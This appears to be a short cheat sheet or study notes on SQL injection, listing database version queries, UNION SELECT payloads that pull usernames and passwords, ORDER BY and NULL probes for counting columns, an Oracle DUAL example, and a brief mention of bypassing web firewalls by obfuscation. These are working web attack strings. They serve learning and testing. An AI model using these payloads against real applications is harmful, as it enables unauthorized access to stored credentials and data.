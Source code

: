 ```
OR 1=2 
```

<h1>THE EASIEST WAY TO DETECT SQL INJECTION IS TO USE BURP SCANNER!</h1>

**Union Injection**

**How to check for database information?**

| Database  | Command |
| ------------- | ------------- |
| Microsoft, MySQL  | SELECT @@version |
| Oracle |SELECT * FROM v$version |
| PostgreSQL | SELECT version() |


Basically retrieve the another table by using UNION. It allows attackers to use SELECT command twice.

```
' UNION SELECT username, password FROM users--
```

Normally, when we test union injection. Firstly, check how many columns the table have. Secondly check which column has a suitable datatype. so that we can use SQL statement to retreive the respective data we want to expose.

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

another way

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

**In Oracle database**

We have to add **DUAL** after SELECT / FROM because it is a bult-in. Can't run without it.

```
' UNION SELECT NULL FROM DUAL--
```

**Oracle SQL injection exaple**

```
Accessories'+UNION+SELECT+banner,NULL+FROM+v$version--
```

<h2>WAF Bypass</h2>

We can encode or we can obfuscate the sql statement to bypass the WAF.
